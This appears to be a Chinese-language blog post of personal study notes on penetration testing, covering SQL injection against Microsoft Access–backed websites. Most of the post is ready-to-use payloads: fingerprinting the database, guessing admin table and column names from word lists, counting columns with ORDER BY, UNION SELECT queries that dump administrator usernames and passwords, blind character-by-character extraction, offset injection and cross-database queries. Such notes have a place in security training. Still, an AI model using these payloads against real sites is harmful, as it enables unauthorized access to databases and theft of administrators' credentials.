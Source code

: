 ```yaml
---
title: 渗透学习心得-基础篇
date: 2019-03-20 15:51:21
tags: 学习笔记
categories: 渗透测试
---
```

&#160; &#160; &#160; &#160;废话就不多说了，直接上笔记内容吧！内容过于低级，大佬勿喷！
<!--more-->
## ACCESS注入篇
&#160; &#160; &#160; &#160;本课可以用到的工具sqlmap、明小子等。
### 判断数据库类型
&#160; &#160; &#160; &#160;如果查询到有msysobjects表，则证明是Access数据库：
```
and exists (select * from msysobjects)>0
``` 
&#160; &#160; &#160; &#160;如果查询到有sysobjects表，则证明是sqlserver数据库：
```
and exists (select * from sysobjects)>0 
```
### 判断表
&#160; &#160; &#160; &#160;例如判断数据库有没有admin表：
```
and exists (select * from admin)
```
&#160; &#160; &#160; &#160;查询是否有admin表，如果有则返回正常，如果没有则返回报错。
常见的表名有：
```
admin_user
admin_msg
admin_usr
admin_login
username
manager
manag
msg_user
msg_longin
useradmin
user_msg
userlogin
users
member
```
### 判断数据库列名
&#160; &#160; &#160; &#160;例如在admin表里有admin列或者password列：
```
and exists (select admin from admin)或and exists (select password from admin) 
```
&#160; &#160; &#160; &#160;判断admin表里面有没有admin列或password列。如果有，则返回正常，如果没有则返回报错。
**注意：以上select后面为列名，from后面为表名**
&#160; &#160; &#160; &#160;管理员表下常见的管理员列名：
```
admin
admin_user
username
users
usr
user_login
user_name
name
loginname
admin_login
msg_name
```
&#160; &#160; &#160; &#160;管理员表下常见的密码列名：
```
password
pwd
pass
user_pass
```
### 判断字段长度
&#160; &#160; &#160; &#160;判断字节长度即判断某个表的列数使用order by命令查询，如：
```
order by 10
```
&#160; &#160; &#160; &#160;表示某个表有10列，如果大于10列，则返回报错，如果小于等于10则返回正常。
### 爆出密码
#### 判断非数字行，即用户名密码行
&#160; &#160; &#160; &#160;根据order by语句爆出列长度以后，执行以下代码会返回一些数字，这些数字表示非数字类型的列。即用户名密码或者日期列。如下：
```
union select 1,2,3,4,5,6,7 from admin
```
&#160; &#160; &#160; &#160;即表示判断admin表里面的非数字列，例如返回2、3、5这三个数字，表示第2、3、5列为非数值类型列。
如果有多个用户名密码的情况下可以加where id=*（*表示行）例如：
```
union select 1,2,3,4,5,6,7 from admin where id = 2 表示判断admin表中2行的非数字列。
```
#### 爆出密码
&#160; &#160; &#160; &#160;根据爆出来的非数字列判断用户名密码：
```
union select 1,admin,password,4,5,6,7 from admin
```
### 番外篇
#### 判断管理员用户名长度
```
and (select len(admin) from admin)=5
```
&#160; &#160; &#160; &#160;判断admin表里admin列里面用户名长度为5
#### 判断管理员密码长度
```
and(select len(password) from admin)>=5
```
&#160; &#160; &#160; &#160;判断admin表里password密码长度大于等于5
#### 根据ASCII表来判断用户名和密码
```
and (select top 1 asc(mid(admin,1,1)) from admin)=97
```
&#160; &#160; &#160; &#160;意思是查询admin表里面admin列里面的第一列的第一个字符是不是等于ASCII表里的97(97是ASCII里的a)
```
and (select top 1 asc(mid(admin,2,1)) from admin)=97
```
&#160; &#160; &#160; &#160;意思是查询admin表里面admin列里面的第一列的第二个字符是不是等于于ASCII表里的97(97是ASCII里的a)
```
and (select top 1 asc(mid(password,2,1)) from admin)=50
```
&#160; &#160; &#160; &#160;意思是查询admin表里面password列里面的第一列的第一个字符是不是等于于ASCII表里的50(50是ASCII里的2)
### 偏移注入
&#160; &#160; &#160; &#160;当遇到得到表名以后，得不到列名就可以用偏移注入。如下：
```
union select 1,2,3,4,5,6,7,8,9,10,12,13,14,15,16 from admin
```
&#160; &#160; &#160; &#160;当遇到如上这种列比较多的，在带入列名，无法爆出数据的情况下进行如下操作：
```
union select 1,2,3,4,5,6,7,8,9,10,12,13,14,15, from admin
```
&#160; &#160; &#160; &#160;用星号代替列，往前推，一直推到爆出数据为止，如果推完只爆出一个数据，用户名或者密码的情况下，再执行以下数据：
```
union select 1,2,3,4,5,6,7,8,9,10,11,12,13，* from admin
```
&#160; &#160; &#160; &#160;如果到13爆出了数据，那么带入公式：
```
16-13=3
```
&#160; &#160; &#160; &#160;那么就在爆出数据的列-3继续便宜如下：
```
union select 1,2,3,4,5,6,7,8,9,10,* from (admin as a inner join admin as b on a.id=b.id)
```
&#160; &#160; &#160; &#160;如果执行以上偏移还未爆出，那就继续往前推6位继续执行如下：
```
union select 1,2,3,4,5,6,7,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)
```
#### 垮库查询
&#160; &#160; &#160; &#160;前提是知道另外一个网站的绝对路径，例如：
```
union select 1,2,3,4,5,6,7 from [D:\www\xydata\xycms.mdb].admin
```
&#160; &#160; &#160; &#160;由于内容实在是太多，还有图片，需要往图床上面放，我就不一一写出来了，直接丢链接吧！有兴趣的同学自己去下载一下：[下载链接](https://pan.baidu.com/s/1lvtkMLpQhxb6NiwMpD79qg)，提取密码：jueq
